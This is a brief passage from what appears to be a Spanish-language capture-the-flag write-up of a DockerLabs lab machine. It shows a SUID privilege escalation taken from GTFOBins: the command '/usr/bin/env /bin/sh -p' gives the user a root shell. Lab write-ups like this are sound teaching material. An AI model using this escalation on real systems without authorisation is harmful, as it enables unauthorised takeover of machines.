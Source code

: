 ![GTFOBins](https://github.com/JavieRR13/WriteUps/blob/8db246ecc76e6e57d754306c4eec3ef6f68a4b97/DockerLabs/Muy%20f%C3%A1cil/Injection/Im%C3%A1genes/GTOBins_env.png)

En nuestro caso nos interesa el apartado de SUID, por lo que nos dirigiremos a la terminal y probaremos el comando aportado.
```ruby
dylan@127ef1d0b8b9:~$ /usr/bin/env /bin/sh -p
# whoami
root
```
🥳CONSEGUIDO, SOMOS ROOT🥳

